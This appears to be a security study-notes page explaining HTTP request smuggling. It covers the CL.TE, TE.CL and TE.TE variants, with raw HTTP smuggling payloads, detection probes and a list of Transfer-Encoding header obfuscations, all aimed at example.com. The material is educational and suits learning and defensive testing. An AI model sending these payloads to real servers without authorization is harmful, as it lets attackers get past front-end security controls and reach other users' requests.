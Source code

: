 # HTTP Request Smuggling

HTTP request smuggling is a technique that is used to mess up the sequence of HTTP requests a website processes. These exploits are often critical in nature, as this can allow attackers to bypass security controls and gain access to sensitive data.&#x20;

## Smuggling 

When HTTP requests are sent to a server, the user sends requests to a front-end server, and then forward the traffic to the back-end. Typically, there are several requests sent over the same connection for maximizing efficiency. When HTTP requests are sent one after another, the receiving server parses the HTTP request headers **to determine where one request ends and the next one begins.**

It is normally processed in a queue data structure:

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Request smuggling happens when attackers embed a hidden request, which is then interpreted by the back-end as a separate request.

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Generally, the manipulation of the `Content-Length` or `Transfer-Encoding` headers allows for this. These headers count the length of the request sent differently.

* `Content-Length`
  * Counts the length of the message in bytes.
  * If we are sending a POST request with a parameter of `q=smuggle`, then the `Content-Length` header has a value of 9 as there are 9 characters.
* `Transfer-Encoding`
  * Specifies that the request uses **chunked encoding**.
  * Terminated by with a chunk size of zero.
  * Normally, browsers do not use chunked encoding, as they are normally used for **server responses.** Take note that it is possible to sent messages using this encoding as requests.
  
The message below has 1 chunk within it:

<pre class="language-http"><code class="lang-http">POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
<strong>
</strong><strong>b
</strong>q=smuggling
0
</code></pre>

Since the HTTP has 2 methods for specifying the message length, there can be conflicts in how they are processing messages. Requests can pass through different servers, and these servers might not support chunked encoding. The difference in behavior is what gives rise to this exploit.

### CL.TE

In this scenario, the front-end server uses the `Content-Length` header and the back-end uses the `Transfer-Encoding` header.&#x20;

To exploit this, we can send in a request like this:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 13
Transfer-Encoding: chunked

0

hello!!!
```

The front-end server processes the Content-Length header and determines that the request body only contains 13 bytes of data (inclusive of `\r\n` characters) and forwards this request. The back-end then sees the request using chunked encoding, this processing the first chunk, which is stated to be 0 length and terminates the request.&#x20;

The following bytes, the 'hello' portion is left unprocessed and the back-end server would treat this as **the start of the next request in sequence.** It is prepended to the next request in the queue.

One can send this request to check;

```http
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Transfer-Encoding: chunked

e
q=smuggle&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the exploit works, 404 is returned, indicating that the request was changed. If this method does not work, then change the request to have one character, **which would cause a time delay**.

### TE.CL

In this scenario, the back-end server uses the `Content-Length` header and the front-end uses the `Transfer-Encoding` header.&#x20;

We can now send this request:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
hello!!!
0
# \r\n\r\n goes here
```

The front-end uses TE to process the request, and sees that the first chunk of data is 8 bytes long. The back-end sees that the request body is 3 bytes long, which **is the newline and '8' character.** Then, the following bytes starting with the 'hello' portion is left unprocessed and the back-end server prepends this to the next request.

Here's one example payload, similar to the one above:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
GET /404 HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

a=
0
```

### TE.TE

In this scenario, both the front and back use `Transfer-Encoding` to process requests. The exploit here has to do with **obfuscating the header**. Here are some examples of changing the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

The point of changing the header is to find whether the front and back end server processes it differently. Sometimes, obfuscation would change how the back-end server processes it, while the front-end sees it without difference. Fuzzing and good enumeration is key to identifying the vulnerability.

Depending on how the website processes information, the rest of the attack takes the same form as the CL.TE or TE.CL exploits.&#x20;